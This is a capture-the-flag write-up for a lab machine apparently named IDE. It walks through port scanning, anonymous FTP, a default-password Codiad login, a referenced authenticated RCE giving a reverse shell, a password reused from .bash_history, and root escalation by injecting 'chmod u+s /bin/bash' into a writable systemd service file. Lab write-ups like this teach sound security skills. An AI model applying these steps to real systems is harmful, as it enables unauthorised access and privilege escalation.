## TL;DR

In this challenge we first find `john`'s password inside ftp service, and login to codiad. then we use known `RCE` exploit to get shell.

We move to user `drac` using password we find inside `.bash_history`. We then move to root using sudo on restart service `vsftpd` and control the `.service` file.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `21` with ftp, port `22` with ssh, port `80` with apache http service and port `62337` with apache http service.
```bash
PORT      STATE SERVICE REASON         VERSION                                                                                                                                               
21/tcp    open  ftp     syn-ack ttl 62 vsftpd 3.0.3                                                                                                                                          
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)                                                                                                                                       
| ftp-syst:                                                                                                                                                                                  
|   STAT:                                                                                                                                                                                    
| FTP server status:                                                                                                                                                                         
|      Connected to ::ffff:192.168.138.59                                                                                                                                                    
|      Logged in as ftp                                                                                                                                                                      
|      TYPE: ASCII                                                                                                                                                                           
|      No session bandwidth limit                                                                                                                                                            
|      Session timeout in seconds is 300                                                                                                                                                     
|      Control connection is plain text                                                                                                                                                      
|      Data connections will be plain text                                                                                                                                                   
|      At session startup, client count was 4                                                                                                                
|      vsFTPd 3.0.3 - secure, fast, stable                                                                                                       
|_End of status                                                                                                                                  
22/tcp    open  ssh     syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                          
| ssh-hostkey:                                                                                                                                   
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)                                                                                   
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC94RvPaQ09Xx+jMj32opOMbghuvx4OeBVLc+/4Hascmrtsa+SMtQGSY7b+eyW8Zymxi94rGBIN2ydPxy3XXGtkaCdQluOEw5CqSdb/qyeH+L/1PwIhLrr+jzUoUzmQil+oUOpVMOkcW7a00BMSxMC
ij0HdhlVDNkWvPdGxKBviBDEKZAH0hJEfexz3Tm65cmBpMe7WCPiJGTvoU9weXUnO3+41Ig8qF7kNNfbHjTgS0+XTnDXk03nZwIIwdvP8dZ8lZHdooM8J9u0Zecu4OvPiC4XBzPYNs+6ntLziKlRMgQls0e3yMOaAuKfGYHJKwu4AcluJ/+g90Hr0UqmY
LHEV                                                                                                                                             
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)                                                                                  
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBzKTu7YDGKubQ4ADeCztKu0LL5RtBXnjgjE07e3Go/GbZB2vAP2J9OEQH/PwlssyImSnS3myib+gPdQx54lqZU=
|   256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)                                                                                
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ+oGPm8ZVYNUtX4r3Fpmcj9T9F2SjcRg4ansmeGR3cP                                                               
80/tcp    open  http    syn-ack ttl 62 Apache httpd 2.4.29 ((Ubuntu))                                                                            
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                                                                     
| http-methods:                                                                                                                                  
|_  Supported Methods: HEAD GET POST OPTIONS                                                                                                     
|_http-title: Apache2 Ubuntu Default Page: It works                                                                                              
62337/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.29 ((Ubuntu))                                                                            
|_http-favicon: Unknown favicon MD5: B4A327D2242C42CF2EE89C623279665F                                                                            
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                                                                     
|_http-title: Codiad 2.8.4                                              
| http-methods:                                                                                                                                  
|_  Supported Methods: GET HEAD POST OPTIONS                                  
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `ide.thm` to my `/etc/hosts`

### Find john's credentials inside anonymous ftp and get shell after login to codiad

First, I tried to login anonymously to the ftp service
```bash
ftp anonymous@ide.thm
```



we can see the folder `...` that's trying to hide. I'll download all files recursively
```bash
wget -m ftp://anonymous@ide.thm
```

Now, we can find the file `-` inside `...`
```bash
┌──(agonen㉿kali)-[~/thm/IDE]
└─$ cat ide.thm/.../- 
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```

I went to port `62337`, we can see some login portal for codiad:



I tried `john` with the default password, `password`, and it worked.



I googled for the version `Codiad 2.8.4`, and found auth `RCE` here [https://www.exploit-db.com/exploits/49705](https://www.exploit-db.com/exploits/49705)



I follow the exploit and got reverse shell. Then, I pasted the penelope payload to get easier reverse shell



### Find drac's password inside .bash_history

I went to the home folder of `drac`, and saw inside `.bash_history` some password
```bash
www-data@ide:/home/drac$ cat .bash_history 
mysql -u drac -p 'Th3dRaCULa1sR3aL'
```



I tried to execute this line, it seems that there is no `mysql` service at all on this machine. I tried to use this password as `drac`'s password, using `su`, and it worked.



The user flag is:
```bash
drac@ide:~$ cat user.txt 
02930d21a8eb009f6d26361b2d24a466
```

### Privilege Escalation to Root using sudo on service vsftpd

First I checked for sudo permissions
```bash
drac@ide:/home$ sudo -l
Matching Defaults entries for drac on ide:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User drac may run the following commands on ide:
    (ALL : ALL) /usr/sbin/service vsftpd restart
```

We're able to restart the vsftpd service. Let's search for this service
```bash
drac@ide:/home$ systemctl list-units | grep vsftpd
vsftpd.service                                                          loaded active running   vsftpd FTP server
```

Okay, the service is `vsftpd.service`. I want to see the status
```bash
drac@ide:/home$ systemctl status vsftpd.service
● vsftpd.service - vsftpd FTP server
   Loaded: loaded (/lib/systemd/system/vsftpd.service; enabled; vendor preset: enabled)
   Active: active (running) since Mon 2026-01-26 07:17:49 UTC; 3min 14s ago
  Process: 2037 ExecStartPre=/bin/mkdir -p /var/run/vsftpd/empty (code=exited, status=0/SUCCESS)
 Main PID: 2045 (vsftpd)
    Tasks: 1 (limit: 476)
   CGroup: /system.slice/vsftpd.service
           └─2045 /usr/sbin/vsftpd /etc/vsftpd.conf
```

we can see the service file located at `/lib/systemd/system/vsftpd.service`, let's inspect his permissions
```bash
drac@ide:/home$ ls -la /lib/systemd/system/vsftpd.service
-rw-rw-r-- 1 root drac 248 Aug  4  2021 /lib/systemd/system/vsftpd.service
```

Oh, it is in our group, We can modify iy and add some command on the `ExecStartPre`, and then get code execute as root.
I want to add the next line:
```bash
/bin/chmod u+s /bin/bash
```



In order to restart the service, we first need to reload the deamon. use the password of `drac`
```bash
systemctl daemon-reload
```

and then, restart:
```bash
sudo /usr/sbin/service vsftpd restart
```



Now, we can spawn root shell



and grab the root flag:
```bash
bash-4.4# cat root.txt 
ce258cb16f47f1c66f0b0b77f4e0fb8d
```